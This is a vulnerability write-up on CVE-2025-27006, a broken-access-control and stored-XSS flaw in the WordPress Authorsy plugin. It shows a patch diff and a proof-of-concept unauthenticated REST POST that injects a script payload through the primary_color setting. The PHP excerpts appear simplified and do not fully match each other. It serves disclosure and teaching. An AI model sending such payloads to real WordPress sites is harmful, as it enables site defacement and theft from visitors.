 ```yaml
---
title: CVE-2025-27006 Analysis & POC
description: Security Vulnerability in WordPress Authorsy Plugin.
date: 2025-10-04 19:37:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

The vulnerability exists in the **Authorsy** plugin for WordPress prior to version **1.0.6**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-27006](https://www.cve.org/CVERecord?id=CVE-2025-27006)
* **Product**: [WordPress Authorsy Plugin](https://wordpress.org/plugins/authorsy/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.0.5
* **CVSS severity**: Medium (6.5)
* **OWASP Top 10**: A1: Broken Access Control
* **Required Privilege**: Subscriber

> Although the description requires **Subscriber** privileges, it can actually be exploited **Unauthenticated**.

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Authorsy**: v1.0.5 (vulnerable) and v1.0.6 (patched)
* **Diff tool**: **meld** or any tool to compare two versions

## Analysis

The plugin allows custom CSS, stores it in `wp_options`, and injects it directly into the `<style>` tag on pages. However, users can interact with the API to modify CSS without proper **access control**, leading to **Broken Access Control** and potential **XSS** if malicious payloads are inserted.

### Patch Diff

Use a diff tool to compare vulnerable and patched versions. Notice clear differences in two files: **core/settings/api-settings.php** and **core/enqueue-inline/enqueue-inline.php**.

**File core/enqueue-inline/enqueue-inline.php**

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single()){
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

User data is inserted without validation, leaving it vulnerable to **XSS**.

Patched version:

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single() && !empty($ea_custom_css)){
        // Sanitize and escape to prevent XSS
        $ea_custom_css = wp_strip_all_tags($ea_custom_css);
        $ea_custom_css = esc_html($ea_custom_css);
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

Sanitization ensures only safe CSS is injected.

![diff 1](diff1.png "Diff showing changes in enqueue-inline.php to sanitize custom CSS")

**File core/settings/api-settings.php**

Vulnerable:

```php
'permission_callback' => function () {
    return true;
},
```

Patched:

```php
'permission_callback' => function () {
    return current_user_can('manage_options');
},
```

The permission callback now restricts access to **admins**, mitigating **Broken Access Control** and indirectly reducing **XSS** risk.

![diff 2](diff2.png "Diff showing REST API permission callback changes in api-settings.php")

### How it works

`custom_inline_css()` is hooked to [`wp_head`](https://developer.wordpress.org/reference/hooks/wp_head/). When WordPress renders the `<head>` section, this function concatenates user options from `authorsy_get_option()` into `$custom_css` and adds it inline:

```php
$custom_css  = authorsy_get_option('ea_custom_css');
```

Since this data is stored in the database, this is **Stored XSS**.

### Exploit

Send a **POST** request to `/wp-json/authorsy/v1/settings` with an XSS payload:

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost
Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

The payload closes the existing `<style>` and injects a `<script>` tag. Visiting any page will execute the XSS.

![XSS](xss.png "Injected XSS payload in <head> via custom CSS")

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

## Conclusion

The `CVE-2025-27006` vulnerability in **Authorsy <= 1.0.5** demonstrates **Broken Access Control** combined with **XSS**. Root causes:

1. REST API lacks proper access control (`permission_callback` always true).
2. Custom CSS is inserted without **sanitization**, enabling injection of `<script>` tags.
3. Nonce verification does not stop execution when invalid, making security checks ineffective.

**Key takeaways**:

* Always use proper `permission_callback` to prevent **Broken Access Control**.
* Sanitize and escape user input before rendering in HTML/CSS/JS to prevent **XSS**.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Authorsy Plugin <= 1.0.5 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/authorsy/vulnerability/wordpress-authorsy-plugin-1-0-5-cross-site-scripting-xss-vulnerability)

